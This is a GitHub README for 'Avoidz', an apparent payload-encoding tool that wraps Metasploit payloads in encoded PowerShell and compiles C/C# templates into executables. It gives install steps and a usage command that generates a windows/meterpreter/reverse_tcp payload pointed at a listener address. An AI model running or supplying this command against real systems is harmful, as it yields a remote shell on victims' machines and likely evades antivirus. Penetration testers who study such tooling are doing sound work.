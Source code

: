 ## Avoidz v 1.0 
    Author: Mascerano Bachir [ dev-labs ]

## Legal Disclamer:
    The author does not hold any responsibility for the bad use of this tool,
    remember this is only for educational purpose.

## Description:
    This tool Generate encoded powershell with metasploit payloads,convert C & C# Templates to EXE's 
 
## Screenshot:
![pic1](http://i.imgur.com/v3Jwj5g.png)

![pic2](http://i.imgur.com/L6GCvpJ.png)

<br /><br />

## Dependencies :
    1 - metasploit-framework
	2 - xterm
	3 - MinGW32
	4 - Monodevelop

## Download/Config/Usage:
    1º - Download the tool from github
         git clone https://github.com/M4sc3r4n0/avoidz.git

    2º - Set setup script execution permitions
         cd avoidz
         sudo chmod +x setup.sh

    3°- Run setup script
         sudo./setup.sh == to check dependecies

    4°- Run avoidz tool == example
         sudo ./avoidz.rb == help command
	  sudo ./avoidz.rb -h 192.168.1.3 -p 666 -m windows/meterpreter/reverse_tcp -f temp1 == generate

## video tutorial: 
Avoidz v 1.0 temp1 generate :
